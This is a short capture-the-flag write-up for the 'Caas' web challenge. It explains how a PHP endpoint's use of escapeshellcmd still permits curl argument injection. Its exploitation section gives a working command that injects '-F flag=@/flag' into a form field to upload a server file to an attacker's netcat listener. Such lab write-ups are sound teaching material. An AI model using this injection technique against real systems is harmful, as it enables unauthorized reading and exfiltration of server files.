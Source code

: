 ```yaml
---
title: Caas
date: 2021-04-25 12:52:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


Looking at the name of the challenge, I suspect it has something to do with Curl. Which could be vulnerable to command injection. However, let's check the source code before making any assumption. (\* ^ ω ^)

The webpage looks like this:
![](/assets/img/caas_web.png#center)

## Vulnerability
Let's take a look at `CurlController.php`:

```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}
```

It takes the ip from the body without any sanitization and creates a new Command Model, so let’s check what `CommandModel.php` does:

```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```

We can’t inject arbitrary commands to this because of the [escapeshellcmd](https://www.php.net/manual/en/function.escapeshellcmd.php) function but we can add arbitrary parameters. Looking at the [curl manual pages](https://curl.se/docs/manpage.html) I quickly found the -F option to exfiltrate a file. There is also this [cheatsheet](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#curl) which shows how you can bypass the escapeshellcmd function.

## Exploitation
With that information, we can simply request the flag and send it to our host machine. Type the following command after setting up a nc listener on port 6666:

```bash
curl -d "ip=-F flag=@/flag http://[MY-IP]:6666/" http://[DOCKER-IP]/api/curl
```

We receive the flag:

> CHTB{f1le_r3trieval_4s_a_s3rv1ce

٩(◕‿◕｡)۶